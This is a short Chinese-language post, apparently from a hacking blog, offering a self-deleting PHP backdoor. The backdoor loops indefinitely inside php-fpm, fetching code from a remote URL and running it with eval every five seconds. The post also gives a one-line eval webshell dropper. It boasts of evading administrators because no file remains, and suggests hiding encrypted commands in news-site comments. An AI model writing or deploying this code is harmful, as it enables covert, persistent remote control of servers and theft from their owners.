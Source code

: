 ### 在xxx.txt中写入你的后门代码，访问后就会删除自己并循环执行txt的代码例如txt里面写了一句这样的代码 file_put_contents('./1.php',"<?php @eval($_POST[cmd])'"?>");这样就会在目录下又生成一个木马如果对方写了是执行命令 。。。这段代码纯粹变成了一个等待命令的木马。。而且管理员检查木马文件的时候  都找不到。。。因为文件已经删除了木马却注入在php-fpm内sleep(5);  五秒就去远程读取一下指令。。。........打算将代码修改一下，加一些正则，去163某一篇新闻的评论里读取预先设定的恶意代码。。。hehe。。黑客连服务器都省了。黑客只需要去网易新闻评论窗口内写入自己的代码就行怕别人看懂？直接加密采用对称加密算法。。没有秘钥 谁也看不懂啥意思秘钥在这段后门里面写着
```PHP
unlink($_SERVER['SCRIPT_FILENAME']);
ignore_user_abort(true);
set_time_limit(0);
$remote_file = 'http://xxx/xxx.txt';
while($code = file_get_contents($remote_file)){
@eval($code);
sleep(5);
};
```